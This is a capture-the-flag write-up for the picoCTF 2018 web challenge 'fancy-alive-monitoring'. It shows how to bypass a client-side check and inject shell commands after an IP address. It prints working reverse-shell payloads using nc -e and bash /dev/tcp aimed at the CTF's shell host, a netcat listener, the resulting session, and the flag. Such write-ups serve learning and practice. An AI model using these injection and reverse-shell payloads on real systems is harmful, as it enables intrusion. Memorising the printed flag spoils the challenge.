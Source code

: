# fancy-alive-monitoring
Web Exploitation - 400 points

## Challenge 
> One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell2.picoctf.com:56517 (link)?

## Hint
> This application uses the validation check both on the client side and on the server side, but the server check seems to be inappropriate.

> You should be able to listen through the shell on the server.


## Solution

The source is provided on the website: [index.txt](index.txt)

To bypass client-side check, call this in Javascript console to submit

	document.getElementById("monitor").submit();

The server-side check only checks for an IP address but still allows additional contents. So we can execute shell commands...

---

From the hint, we need to spawn a reverse shell

 - https://null-byte.wonderhowto.com/how-to/use-command-injection-pop-reverse-shell-web-server-0185760/
 - https://gist.github.com/rshipp/eee36684db07d234c1cc
 - https://hackernoon.com/reverse-shell-cf154dfee6bd
 - https://stackoverflow.com/questions/35271850/what-is-a-reverse-shell

Listen on our account shell using `nc -v -l -p 2718`

And then connect through the website by submitting any of the following:

	127.0.0.1; nc 2018shell2.picoctf.com 2718 -e /bin/sh
	127.0.0.1; /bin/bash -c 'bash -i >& /dev/tcp/2018shell2.picoctf.com/2718 0>&1'
	127.0.0.1; /bin/bash -c 'bash -i >& /dev/tcp/2018shell2.picoctf.com/2718 0>&1'

And afterwhich we can cat out the flag

	zst123@pico-2018-shell-2:~$ nc -v -l -p2718

	Listening on [0.0.0.0] (family 0, port 2718)
	Connection from [18.224.157.204] port 2718 [tcp/*] accepted (family 2, sport 44474)
	bash: cannot set terminal process group (121526): Inappropriate ioctl for device
	bash: no job control in this shell

	<ive-monitoring_2_d3275d52f5439e00b10d058c8f4d202f$ ls  
	ls
	index.php
	index.txt
	the-secret-1755-flag.txt
	xinet_startup.sh

	<ive-monitoring_2_d3275d52f5439e00b10d058c8f4d202f$ cat *flag.txt
	cat *flag.txt
	Here is your flag: picoCTF{n3v3r_trust_a_b0x_36d4a875}


## Flag

	picoCTF{n3v3r_trust_a_b0x_36d4a875}
